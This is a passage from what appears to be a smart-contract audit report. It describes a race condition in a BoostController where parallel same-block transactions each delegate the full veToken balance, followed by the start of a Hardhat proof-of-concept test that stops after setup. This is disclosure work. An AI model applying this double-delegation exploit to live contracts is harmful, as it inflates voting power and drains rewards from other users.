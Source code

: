 ## Impact
* Users can delegate more boost than their actual `veToken` balance
* Boost calculations become inaccurate across all delegations
* Reward distribution system becomes unbalanced
* Economic exploitation possible through inflated voting power

## Proof of Concept
This POC demonstrates how an attacker can exploit the race condition in the boost delegation system by executing parallel transactions. Here's what the attack does:

### Setup Phase:
* We deploy a mock `veToken` contract and the `BoostController`
* Mint 100 `veTokens` to the attacker's address
* Set up two recipient addresses for the double-delegation

### Attack Execution:
* The attacker creates two identical delegation transactions
* Each transaction attempts to delegate the full balance (100 tokens)
* Transactions are submitted in parallel within the same block
* Both pass the balance check since they see the original balance

### Verification:
* We verify both delegations succeeded
* Show that total delegated amount (200) exceeds actual balance (100)
* Prove the race condition allowed double-spending of boost power

### Expected Results:
* Both delegations will be recorded as valid
* Total delegated amount will be 2x the actual balance
* Protocol's boost calculations are compromised

The complete POC code:

```javascript
const { expect } = require("chai");
const { ethers } = require("hardhat");
const { mine, time } = require("@nomicfoundation/hardhat-network-helpers");

describe("BoostController Double-Delegation Attack", function() {
    let boostController, veToken;
    let deployer, attacker, recipient1, recipient2;
    const INITIAL_BALANCE = ethers.utils.parseEther("100");
    const WEEK = 7 * 24 * 60 * 60;

    before(async function() {
        [deployer, attacker, recipient1, recipient2] = await ethers.getSigners();

        const VeToken = await ethers.getContractFactory("MockVeToken");
        veToken = await VeToken.deploy("Vote Escrowed Token", "veToken");
        await veToken.deployed();

        const BoostController = await ethers.getContractFactory("BoostController");
        boostController = await BoostController.deploy(veToken.address);
        await boostController.deployed();

        await veToken.connect(deployer).mint(attacker.address, INITIAL_BALANCE);
    });

    it("Should demonstrate double-delegation exploit", async function() {
        console.log("\nStarting Double-Delegation Attack Demo");
        console.log("--------------------------------------");
        
```